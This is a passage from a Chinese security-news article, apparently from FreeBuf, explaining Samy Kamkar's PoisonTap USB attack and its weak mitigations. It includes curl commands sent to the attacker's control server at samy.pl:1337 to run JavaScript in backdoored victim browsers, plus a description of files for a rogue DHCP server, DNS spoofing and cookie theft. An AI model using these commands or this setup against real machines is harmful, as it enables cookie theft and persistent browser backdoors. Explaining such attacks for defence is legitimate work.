 该服务器也用来发送命令，如：</span></p></blockquote><blockquote nodeIndex="110"><pre nodeIndex="111"><code nodeIndex="224"><span nodeIndex="225"># pop alert to victimcurl 'http://samy.pl:1337/exec?alert("muahahahaha")'# to set a cookie on victimcurl 'http://samy.pl:1337/exec?document.cookie="key=value"'# to force victim to load a url via ajax (note, jQuery is stored inside the backdoor)curl 'http://samy.pl:1337/exec?$.get("http://192.168.0.1.ip.samy.pl/login",function(d)\{console.log(d)\})'</span></code></pre></blockquote><blockquote nodeIndex="112"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="113"><span nodeIndex="226">pi_poisontap.js：它通过Raspberry Pi Zero上的Node.js运行，为PoisonTap 的HTTP服务端截获请求，存储窃取Cookie并注入缓存后门</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="114"><span nodeIndex="227">pi_startup.sh：在Raspberry Pi Zero上启动时运行，将设备模拟为USB以太网配件，设置恶意DHCP服务器，允许流量重路由，DNS欺骗，并启动pi_poisontap.js文件</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="115"><span nodeIndex="228">target_backdoor.js： 此文件预先放在任何与CDN相关的Javascript文件中，通过Google CDN’s jQuery URL方式形成后门</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="116"><span nodeIndex="229">target_injected_xhtmljs.html：在受害者系统中注入HTTP / AJAX请求并形成整个攻击</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="117"><span nodeIndex="230">poisontap.cookies.log： 记录来自受害者浏览器的cookie </span></p></blockquote><h2 nodeIndex="118">修复措施：</h2><p class=" _RIL_KEEPER_CLASS_" nodeIndex="119">目前来说，PoisonTap因为是多种黑客技巧组合而成的攻击，整个攻击和利用过程不能明确反映某个产品或系统漏洞，所以，目前来说，没有一种明确的修复措施。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="120">但Kamkar提出了一种解决方案，希望在系统层面的网络连接切换中加入权限许可机制，但是苹果公司没有对此作出回应，而微软公司在给记者的回复邮件中表示，PoisonTap是一种物理接入攻击。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="121">所以，最好的防御策略就是自己保管好电脑并及时更新系统和软件。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="122"><span nodeIndex="231">*参考来源：</span><span nodeIndex="232">github</span><span nodeIndex="233">，FB小编clouds编译，转载请注明来自FreeBuf（FreeBuf.COM）</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="123"><div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489211961/8"/></div><br nodeIndex="234"></p>
                    </div>
                    <p id="js_preview_reward_wording" class="tips_global reward_tips _RIL_KEEPER_CLASS_" nodeIndex="126"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="127">
                            <a class="reward_access" id="js_preview_reward_link" href="">赞赏</a>
                        </p></div><p class="discuss_icon_tips rich_split_tips tr _RIL_KEEPER_CLASS_" nodeIndex="135" childisonlyalink="1">
                        <a href="" id="js_preview_cmt_write">写留言<div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489211961/9"/></div></a>
                      </p></div>